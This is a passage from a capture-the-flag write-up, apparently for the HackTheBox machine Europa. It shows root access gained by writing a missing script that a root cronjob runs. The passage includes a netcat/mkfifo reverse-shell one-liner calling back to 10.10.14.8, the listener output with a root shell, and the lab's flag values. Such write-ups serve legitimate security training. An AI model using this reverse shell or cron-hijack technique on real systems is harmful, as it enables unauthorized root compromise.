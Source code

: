 There an interesting cronjob running called `clearlogs`!

```bash
$ cat /var/www/cronjobs/clearlogs

#!/usr/bin/php
<?php
$file = '/var/www/admin/logs/access.log';
file_put_contents($file, '');
exec('/var/www/cmd/logcleared.sh');
?>
```

The cronjob is executing some `logcleared.sh` script but the file does not exist. We can leverage this by writing our own malicious `logcleared.sh` file.

```bash
$ echo 'rm /tmp/f2;mkfifo /tmp/f2;cat /tmp/f2|/bin/sh -i 2>&1|nc 10.10.14.8 9999 >/tmp/f2' > /var/www/cmd/logcleared.sh
$ cat /var/www/cmd/logcleared.sh
rm /tmp/f2;mkfifo /tmp/f2;cat /tmp/f2|/bin/sh -i 2>&1|nc 10.10.14.8 9999 >/tmp/f2
$ chmod +x /var/www/cmd/logcleared.sh
```

>   Note: As we are currently using the variable `f` for the current user shell, we cannot reuse it. Therefore, we need to use another variable `f2`.

Finally, we wait for the cronjob to execute our malicious code.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Europa]
└─# nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.22] 50522
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# cat /root/root.txt
7f19438b27578e4fcc8bef3a029af5a5
# ls /home
john
# cat /home/john/user.txt
2f8d40cc05295154a9c3452c19ddc221
```

